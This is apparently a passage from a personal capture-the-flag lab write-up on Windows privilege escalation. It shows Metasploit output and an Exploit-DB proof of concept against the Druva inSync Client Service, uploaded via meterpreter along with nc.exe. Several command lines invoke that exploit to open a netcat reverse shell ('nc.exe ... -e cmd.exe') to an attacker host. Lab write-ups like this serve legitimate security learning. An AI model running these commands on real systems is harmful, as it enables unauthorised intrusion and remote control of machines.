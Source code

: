 ```bash
[*] Started reverse TCP handler on 10.10.14.3:9002 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching msiexec to host the DLL...
[+] Process 8820 launched.
[*] Reflectively injecting the DLL into 8820...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
```

##### Druva inSync Client Service

I googled the name of the service, and found out that there's an exploit :
https://www.exploit-db.com/exploits/48505

I uploaded the PoC and `nc.exe` through meterpreter.

```bash
meterpreter > upload druva_exploit.py
[*] Uploading  : /home/kali/htb/WS01/druva_exploit.py -> druva_exploit.py
[*] Uploaded 2.01 KiB of 2.01 KiB (100.0%): /home/kali/htb/WS01/druva_exploit.py -> druva_exploit.py
[*] Completed  : /home/kali/htb/WS01/druva_exploit.py -> druva_exploit.py


meterpreter > upload nc.exe
[*] Uploading  : /home/kali/htb/WS01/nc.exe -> nc.exe
[*] Uploaded 58.00 KiB of 58.00 KiB (100.0%): /home/kali/htb/WS01/nc.exe -> nc.exe
[*] Completed  : /home/kali/htb/WS01/nc.exe -> nc.exe
```

C:\python27\python.exe C:\Users\gerald\Documents\druva.py "C:\windows\system32\cmd.exe /C C:\Users\gerald\Documents\nc.exe 10.10.14.3 9002 -e cmd.exe"

C:\python27\python.exe C:\Users\gerald\Documents\druva.py "C:\Users\gerald\Documents\nc.exe 10.10.14.3 9002 -e cmd.exe"


C:\python27\python.exe C:\Users\gerald\Documents\druva.py "C:\Users\gerald\Documents\nc.exe 172.16.1.100 9002 -e cmd.exe"

> Stuck here for so long...
> Let's visit it later....!!!